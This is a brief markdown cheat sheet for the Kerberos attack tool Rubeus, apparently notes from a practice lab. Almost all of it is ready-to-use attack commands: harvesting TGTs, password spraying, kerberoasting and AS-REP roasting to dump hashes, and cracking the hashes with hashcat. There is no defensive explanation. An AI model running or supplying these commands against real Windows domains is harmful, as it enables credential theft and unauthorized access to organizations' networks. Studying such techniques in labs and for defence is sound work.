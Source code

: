 Used to attack Kerberos.

`https://github.com/GhostPack/Rubeus`

---

### Harvest for TGTs every 30 seconds
`Rubeus.exe harvest /interval:30`

---

### Bruteforcing and Password Spraying

add the DC domain name to windows host file
```
echo 10.10.53.4 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```


password spray against found users with given password
```
Rubeus.exe brute /password:Password1 /noticket
```

---

### kerberoasting

Dump Kerberos hash of any kerberoastable users
```
Rubeus.exe kerberoast
```

place hash in txt file on attack machine and crack with hashcat
```
hashcat -m 13100 -a 0 crackme.txt wordlist.txt 
```

---

### AS-REP roasting
```
Rubeus.exe asreproast
```

Insert `23$` after `$krb5asrep$` so that the first line will be `$krb5asrep$23$User`
```
`hashcat -m 18200 hash.txt Pass.txt`
```

